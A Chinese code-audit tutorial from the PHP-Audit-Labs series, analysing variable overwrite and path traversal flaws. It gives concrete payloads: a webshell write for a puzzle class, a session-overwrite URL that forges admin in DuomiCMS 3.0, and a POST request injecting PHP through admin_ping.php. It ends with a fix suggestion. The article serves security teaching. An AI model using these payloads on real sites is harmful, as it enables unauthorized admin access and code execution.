本文由红日安全成员： **七月火** 编写，如有不当，还望斧正。

## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 [**PHP-Audit-Labs**](https://github.com/hongriSec/PHP-Audit-Labs) 。现在大家所看到的系列文章，属于项目 **第一阶段** 的内容，本阶段的内容题目均来自 [PHP SECURITY CALENDAR 2017](https://www.ripstech.com/php-security-calendar-2017/) 。对于每一道题目，我们均给出对应的分析，并结合实际CMS进行解说。在文章的最后，我们还会留一道CTF题目，供大家练习，希望大家喜欢。下面是 **第14篇** 代码审计文章：

## Day 14 - Snowman

题目叫做雪人，代码如下：



**漏洞解析** ：

这道题目讲的是一个 **变量覆盖** 与 **路径穿越** 问题。在 **第10-11行** 处， **Carrot** 类的构造方法将超全局数组 **$_GET** 进行变量注册，这样即可覆盖 **第8行** 已定义的 **$this->** 变量。而在 **第16行** 处的析构函数中， **file_put_contents** 函数的第一个参数又是由 **$this->** 变量拼接的，这就导致我们可以控制写入文件的位置，最终造成任意文件写入问题。下面我们试着使用 **payload** ：**id=../var/www/html/shell.php&shell=',)%0a<?php phpinfo();?>//** 写入 **webshell** ：



## 实例分析

本次实例分析，我们选取的是 **[DuomiCMS_3.0](https://duomicms.net)** 最新版。该CMS存在全局变量注册问题，如果程序编写不当，会导致变量覆盖，本次我们便来分析 **由变量覆盖导致的getshell** 问题。

首先我们先来看一下该CMS中的全局变量注册代码，该代码位于 **duomiphp/common.php** 文件中，如下：





其中 **_RunMagicQuotes** 函数将特殊符号，使用 **addslashes** 函数进行转义处理。我们来搜索 **fwrite** 函数，看看是否存在可利用的写文件程序（为了写 **shell** ）。**phpstorm** 程序搜索结果如下：



我们可以看到有一个 **admin\admin_ping.php** 文件中，存在可利用的地方，因为其写入的目标文件为 **PHP** 程序，且写入内容中存在两个可控变量。其代码具体如下：



**$weburl** 变量和 **$token** 变量从 **POST方式** 获取，其变量也只是经过 **_RunMagicQuotes** 函数过滤处理，以及 **duomiphp\webscan.php** 文件的过滤规则，但是并不影响我们写shell。过滤规则具体如下：



然而要想利用这个文件，我们就必须是 **admin** 身份，不然没有权限访问该文件。所以我们看看该CMS是如何对用户身份进行认定的，是否可以利用之前的变量覆盖来伪造身份呢？

跟进 **admin\admin_ping.php** 文件开头包含的 **admin\config.php** 文件，那么我们要关注的是如下代码：



我们需要知道程序是如何对用户的身份进行处理的，跟进 **duomiphp\check.admin.php** 文件，关注如下代码：



我们可以看到这里记录了用户名字、所属组、用户，再来看看 **admin** 所对应的这三个值分别是多少。找到 **admin\login.php** 文件，如下图，我们只要让 **checkUser** 方法返回1即是admin用户。



跟进 **duomiphp\check.admin.php** 文件的 **checkUser** 方法，具体代码如下：



我们直接使用正确admin账号密码登录后台，可以观察到admin用户对应的用户和所属组均为1。



那么现在我们只要利用变量覆盖漏洞，覆盖 **session** 的值，从而伪造 **admin** 身份，然后就可以愉快的写shell了。

## 漏洞利用

我们需要先找一些开启 **session_start** 函数的程序来辅助我们伪造身份，我们这里就选择 **member/share.php** 文件。



我们先访问如下 **payload** ：

```php
http://localhost/member/share.php?_SESSION[duomi_group_]=1&_SESSION[duomi_admin_]=1
```

当我们访问 **payload** 后，我们对应 **session** 的用户和所属组都变成了1。然后，我们再POST如下数据包写入webshell：

```http
POST /admin/admin_ping.php?action=set HTTP/1.1
Host: www.localhost.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

weburl=";phpinfo();//&token=
```



## 修复建议

实际上，这个漏洞和 **Dedecms** 变量覆盖漏洞很相似。而在 **Dedecms** 的官方修复代码中，多了检测变量名是否为PHP原有的超全局数组，如果是，则直接退出并告知变量不允许，具体修复代码如下：



## 结语

看完了上述分析，不知道大家是否对 **变量覆盖** 导致的漏洞有了更加深入的理解，文中用到的 **CMS** 可以从这里( **[DuomiCMS_3.0](https://duomicms.net/portal.php?mod=attachment&id=23)** )下载，当然文中若有不当之处，还望各位斧正。如果你对我们的项目感兴趣，欢迎发送邮件到 **hongrisec@gmail.com** 联系我们。**Day14** 的分析文章就到这里，我们最后留了一道CTF题目给大家练手，题目如下：链接: <https://pan.baidu.com/s/1pHjOVK0Ib-tjztkgBxe3nQ> 密码: 59t2（题目环境：PHP5.2.x）

题解我们会阶段性放出，如果大家有什么好的解法，可以在文章底下留言，祝大家玩的愉快！
